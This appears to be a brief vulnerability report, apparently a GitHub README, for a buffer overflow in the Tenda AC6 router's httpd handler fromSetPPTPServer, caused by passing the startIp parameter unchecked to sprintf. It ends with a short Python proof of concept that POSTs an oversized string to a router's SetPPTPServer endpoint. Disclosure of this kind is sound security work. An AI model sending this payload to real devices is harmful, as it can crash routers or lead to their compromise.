 # buff overflow

## Tenda_AC6

version: V15.03.06.51

## Description:

There is a buff overflow in httpd/fromSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3794.html

## Analyse:


![](6.png)

get value from startIp ,then call sprintf, cause buff overflow

![](7.png)


## POC
```
url = "http://192.168.1.13/goform/SetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
